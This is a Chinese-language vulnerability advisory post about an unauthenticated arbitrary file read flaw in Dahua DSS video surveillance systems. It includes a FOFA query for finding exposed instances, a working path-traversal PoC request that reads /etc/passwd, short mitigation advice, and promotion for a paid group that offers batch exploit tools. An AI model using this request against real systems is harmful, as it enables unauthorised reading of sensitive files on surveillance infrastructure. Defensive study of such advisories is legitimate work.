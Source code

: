 #  大华DSS数字监控系统 attachment_downloadAtt.action 任意文件读取漏洞   
冷漠安全  冷漠安全   2024-12-15 00:00  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0pFeDPJNnYaE7pYibBLQrUbLZwqelcotCqhYf0seBKfHroSUm8XuHyka5I3SmicWcJYUpZbFmxJCZ1Q/640?wx_fmt=gif&from=appmsg "")  
  
0x01 免责声明  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
产品介绍  
  
大华DSS数字监控系统是一个在通用安防视频监控系统基础上设计开发的系统，专为各类企业和组织提供高效、稳定且全面的视频监控解决方案，旨在提升安全防护能力，优化运营管理。支持高清视频流处理，确保图像清晰度，提高监控质量。内置多种智能分析算法，如人脸识别、行为分析、异常检测等，提高预警效率。支持移动终端访问，用户可以随时随地查看监控画面。采用加密技术，保护数据安全，防止非法入侵。典型组网结构包括前端设备（摄像头）、后端服务器、存储设备、网络设备以及客户端软件。系统基于模块化设计，易于扩展和维护。总体层次结构通常包括基层监控节点、区域中心、总中心等多级架构。同时，系统支持多级中心互联，实现远程监控和管理。  
  
0x03  
  
漏洞威胁  
  
大华DSS数字监控系统  attachment_downloadByUrlAtt.action接口存在任意文件读取漏洞，未经身份验证的远程攻击者 可以利用此漏洞获取系统内部敏感文件信息，使系统处于极不安全的状态。  
  
0x04  
  
漏洞环境  
  
FOFA:  
   
```
app="dahua-DSS"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0ocDZzs3LkAmUwCpbMRb1icEOda8h20ic5b1N7OkS5aVTJgA0dhxzJDl9ab46CD3ib00zqVyvq9Ynic7A/640?wx_fmt=png&from=appmsg "")  
  
  
0x05  
  
漏洞复现  
  
PoC  
```
GET /portal/attachment_downloadAtt.action?filePath=../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0ocDZzs3LkAmUwCpbMRb1icEUiclibMWibwasYYUX43rwVO5PU7CNnuSCibskBO74GXtr1yAhVcOicrYickg/640?wx_fmt=png&from=appmsg "")  
  
0x06  
  
批量脚本验证  
  
Nuclei验证脚本已发布  
  
知识星球：冷漠安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0ocDZzs3LkAmUwCpbMRb1icEPia0UNTQUAzKR5LVx8AeLktibYw1kyPCEYrcEXvDyLsKuIibmQnnlUkTw/640?wx_fmt=png&from=appmsg "")  
  
  
0x07  
  
修复建议  
  
目前已提供解决方案，请关注厂商主页更新：https://www.dahuatech.com/  
  
临时修复方案：  
  
通过防火墙等安全设备设置访问策略，设置白名单访问。  
  
如非必要，禁止公网访问该系统。  
  
0x08  
  
加入我们  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全  
  
交个朋友，限时优惠券：加入立减25  
  
星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0ocDZzs3LkAmUwCpbMRb1icExBHjV5d6xcpXkpXpPvbDTn9krh7jUbGPAJx5pdgnH9w5zVkU9D7EZQ/640?wx_fmt=png&from=appmsg "")  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0ocDZzs3LkAmUwCpbMRb1icEVCHshh3GUn88nRqNdLcU1fyH2Vb9zIm8Vw4qPGFZGmNmtibPcjqVABw/640?wx_fmt=gif&from=appmsg "")  
  
  
